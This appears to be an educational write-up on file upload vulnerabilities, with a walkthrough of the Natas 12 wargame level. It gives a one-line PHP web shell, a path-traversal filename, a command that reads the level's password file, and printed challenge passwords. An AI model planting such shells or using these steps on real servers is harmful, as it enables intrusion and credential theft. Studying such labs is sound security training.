 # File upload vulnerability

> Various web applications allow users to upload files (eg images, music files etc). The uploaded files can initiate momentous risk if not handled in a secure way. Depending on how the file is processed and where it is stored the impact of the file upload vulnerability may vary.

There are two types forms of complications here. The first form is due to the metadata (file name and path). This may replace important files. For example, the attacker can upload a file named index.html in the root folder by upload a malicious file and its filename might look like this "../../../index.html". So you must validate the metadata immensely carefully before you are going to use it. The other form of complication is due to the content in the file.

## Impact
- The attacker might get a web shell.
- Make a phishing page on the website.
- Make a permanent XSS on the website.
- Uploaded sensitive content might be reachable by unintended people.

The severity is very high, an intended code can be executed in the server context or on the client-side. The tendency of detection for the attacker is so high. The prevalence is common. This makes the severity of this vulnerability very high.
### Explore it yourself :
 Make a PHP file to test the vulnerability locally in your system with the code mentioned here.
 
  shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 

## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.

Let's try to find the files present in the directory where the image is uploaded by giving cmd=ls

![natas12](natas12.4.png)

we can see various files present in the directory on the screen (say jpg, PHP, etc.) uploaded by other users for the challenge.

The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.
